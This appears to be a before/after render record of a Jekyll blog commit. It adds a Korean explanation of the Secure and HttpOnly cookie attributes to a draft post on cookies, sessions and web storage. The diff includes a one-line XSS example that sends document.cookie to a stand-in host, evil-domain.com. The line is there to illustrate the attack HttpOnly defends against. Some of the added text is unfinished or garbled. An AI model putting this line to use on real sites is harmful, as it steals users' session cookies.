

Before and after one commit to hellozin/hellozin.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the part 448-2368 px from the top of the page at 78% size, without its empty margins (257-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed text lies outside the part shown.

Commit message:
포스트 작성중

````diff
--- a/_posts/2019-04-16-cookie-session-webstorage.md
+++ b/_posts/2019-04-16-cookie-session-webstorage.md
@@ -12,7 +12,6 @@ tags:
 ### HTTP 프로토콜의 특징
 
 - **비연결지향 (Connectionless)**: 클라이언트가 서버에게 Request를 보내고 서버가 클라이언트에게 Response를 보내면 접속을 종료한다.
-
 - **무상태 (Stateless)**: 통신이 끝나면 상태 정보를 유지하지 않는다.
 
 즉, 클라이언트의 로그인 정보나 브라우저에서 입력한 값 등이 페이지를 이동할 때 마다 초기화 되는 것입니다. 이러한 문제점을 해결하기 위해 데이터 저장에 사용하는 것이 **쿠키**, **세션** 그리고 **웹 스토리지**입니다.
@@ -73,6 +72,21 @@ Path=/docs 의 쿠키가 포함되는 서브디렉토리의 예
 - /docs/Web/HTTP
 ```
 
+**Secure** 속성은 HTTPS 프로토콜로 암호화 된 요청일 경우에만 쿠키가 포함됩니다. 하지만 Secure 속성을 추가하더라도 안전하다고 볼 수 없기 때문에 민감한 정보는 쿠키에 추가해서는 안됩니다.
+
+**HttpOnly** 속성은 자바스크립트의 `Document.cookie` API를 통 에 의해 쿠키가 접근되는 것을 방지합니다. 이를 통해 인증된 정보를 자바스크립트를 통해 탈취하는 Cross-site 스크립팅(XXS) 공격을 막는데 도움을 줍니다.
+
+```
+Set-Cookie: password=DontDoThat; Secure; HttpOnly
+```
+
+Cross-site 스크립팅(XXS) 공격의 예
+```
+(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
+```
+
+과 **HttpOnly**
+
 ### Reference
 
 - [HTTP 쿠키 / MDN](https://developer.mozilla.org/ko/docs/Web/HTTP/Cookies)
````
